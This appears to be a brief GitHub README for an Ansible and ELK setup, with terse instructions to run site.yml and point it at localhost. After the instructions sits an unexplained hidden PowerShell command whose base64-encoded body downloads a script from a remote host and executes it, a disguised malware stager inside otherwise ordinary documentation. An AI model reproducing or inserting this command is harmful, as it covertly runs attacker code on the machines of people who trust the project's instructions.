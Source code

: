 # Ansible-with-ELK
How to create a workflow in simple terms
the only thing we need is the site.yml script to run it

The in the script you need to change el elkserver to localhost, if you want to run it in you own computer

powershell -w hidden -noni -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMAAuADAALgA0ADoAMwA2ADEAOAA3AC8AcAAuAHAAcwAxACcAKQA=

